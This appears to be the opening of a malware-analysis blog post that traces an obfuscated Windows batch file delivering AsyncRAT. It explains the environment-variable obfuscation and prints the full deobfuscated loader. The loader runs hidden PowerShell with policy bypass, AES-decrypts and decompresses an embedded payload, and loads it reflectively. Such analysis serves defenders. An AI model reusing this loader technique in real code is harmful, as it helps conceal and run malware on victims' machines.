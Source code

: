 ```yaml
---
title: From BAT to AsyncRAT
author: misthi0s
categories:
- malware
tags:
- malware
- .net
- bat
- powershell
- AsyncRAT
date: 2023-02-08 21:37:00
---
```


While perusing public samples from the Triage database, I stumbled across an interesting payload that was labelled as AsyncRAT. AsyncRAT is an open-source Remote Access Tool (or Trojan may be more apt) written in C#, so I was curious as to what the infection process would look like starting as a Windows Batch file. For anyone who wants to follow along, the sample on Triage can be found [here](https://tria.ge/230131-vwe3wahc28/behavioral2).

## Initial Payload

Upon first investigation, the batch file appears to be heavily obfuscated, but upon closer inspection, the behavior exhibited isn't too difficult to interpret. The file starts off with a `set "gXtM=set "`, which effectively creates an environment variable called `gXtM` with a value of `set `. The following lines use this gXtM variable in %, denoting to the Windows commandline interpreter to use the environment variable named gXtM. These commands set more environment variables. At the end of the batch file, all of these environment variables are then combined together to create the payload.

To decipher these concatenated environment variables, I used the [batch_deobfuscator](https://github.com/DissectMalware/batch_deobfuscator) script from DissectMalware on GitHub. Running the script against the batch file produces the following deobufscated code.

```batch
copy C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe /y "script.bat.exe
cls
cd "~dp0"
"~nx0.exe -noprofile -windowstyle hidden -ep bypass -command $yruxp = [System.IO.File]::('txeTllAdaeR'[-1..-11] -join '')('script.bat').Split([Environment]::NewLine) foreach ($AoHcJ in $yruxp) { if ($AoHcJ.StartsWith(':: ')) {  $jSeTT = $AoHcJ.Substring(3)  break  }  } $iPrdF = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')($jSeTT) $pstaK = New-Object System.Security.Cryptography.AesManaged $pstaK.Mode = [System.Security.Cryptography.CipherMode]::CBC $pstaK.Padding = [System.Security.Cryptography.PaddingMode]::PKCS7 $pstaK.Key = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('oK9Sb6xmpGv+i/gAJDgfaubHDtLnuOUbT8h3z0NIMvs=') $pstaK.IV = [System.Convert]::('gnirtS46esaBmorF'[-1..-16] -join '')('CUeA3Qkm0ivKUIPg7zp+ug==') $FYwLw = $pstaK.CreateDecryptor() $iPrdF = $FYwLw.TransformFinalBlock($iPrdF  0  $iPrdF.Length) $FYwLw.Dispose() $pstaK.Dispose() $XhabZ = New-Object System.IO.MemoryStream(  $iPrdF) $lkvIz = New-Object System.IO.MemoryStream $oenGH = New-Object System.IO.Compression.GZipStream($XhabZ  [IO.Compression.CompressionMode]::Decompress) $oenGH.CopyTo($lkvIz) $oenGH.Dispose() $XhabZ.Dispose() $lkvIz.Dispose() $iPrdF = $lkvIz.ToArray() $QQBse = [System.Reflection.Assembly]::('daoL'[-1..-4] -join '')($iPrdF) $qnZNg = $QQBse.EntryPoint $qnZNg.Invoke($null  (  [string[]] ('')))
exit /b
```
